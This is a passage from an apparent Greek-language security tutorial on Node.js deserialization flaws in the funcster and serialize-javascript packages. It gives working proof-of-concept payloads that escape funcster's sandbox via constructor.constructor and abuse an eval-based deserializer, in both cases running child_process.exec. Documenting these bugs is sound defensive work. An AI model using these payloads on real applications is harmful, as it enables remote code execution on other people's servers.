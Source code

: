 Μπορείτε να [**βρείτε εδώ**](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) **περισσότερες πληροφορίες** σχετικά με το πώς να εκμεταλλευτείτε αυτήν την ευπάθεια.

### [funcster](https://www.npmjs.com/package/funcster)

Ένα αξιοσημείωτο χαρακτηριστικό του **funcster** είναι η μη προσβασιμότητα των **τυπικών ενσωματωμένων αντικειμένων**; βρίσκονται εκτός του προσβάσιμου πεδίου. Αυτή η περιοριστική πολιτική αποτρέπει την εκτέλεση κώδικα που προσπαθεί να καλέσει μεθόδους σε ενσωματωμένα αντικείμενα, οδηγώντας σε εξαιρέσεις όπως το `"ReferenceError: console is not defined"` όταν χρησιμοποιούνται εντολές όπως `console.log()` ή `require(something)`.

Παρά αυτόν τον περιορισμό, η αποκατάσταση πλήρους πρόσβασης στο παγκόσμιο πλαίσιο, συμπεριλαμβανομένων όλων των τυπικών ενσωματωμένων αντικειμένων, είναι δυνατή μέσω μιας συγκεκριμένης προσέγγισης. Εκμεταλλευόμενοι άμεσα το παγκόσμιο πλαίσιο, μπορεί κανείς να παρακάμψει αυτόν τον περιορισμό. Για παράδειγμα, η πρόσβαση μπορεί να αποκατασταθεί χρησιμοποιώντας το παρακάτω απόσπασμα:
```javascript
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function() { return "Hello world!" })
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = { __js_function: 'this.constructor.constructor("console.log(1111)")()' }
funcster.deepDeserialize(desertest2)
var desertest3 = { __js_function: 'this.constructor.constructor("require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });")()' }
funcster.deepDeserialize(desertest3)
```
**Για**[ **περισσότερες πληροφορίες διαβάστε αυτή την πηγή**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### [**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)

Το πακέτο **serialize-javascript** έχει σχεδιαστεί αποκλειστικά για σκοπούς σειριοποίησης, χωρίς καμία ενσωματωμένη δυνατότητα αποσειριοποίησης. Οι χρήστες είναι υπεύθυνοι για την υλοποίηση της δικής τους μεθόδου αποσειριοποίησης. Μια άμεση χρήση του `eval` προτείνεται από το επίσημο παράδειγμα για την αποσειριοποίηση σειριοποιημένων δεδομένων:
```javascript
function deserialize(serializedJavascript){
return eval('(' + serializedJavascript + ')');
}
```
Αν αυτή η συνάρτηση χρησιμοποιείται για να αποδομήσει αντικείμενα, μπορείτε **εύκολα να την εκμεταλλευτείτε**:
```javascript
var serialize = require('serialize-javascript');
//Serialization
var test = serialize(function() { return "Hello world!" });
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```
**Για**[ **περισσότερες πληροφορίες διαβάστε αυτή την πηγή**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**
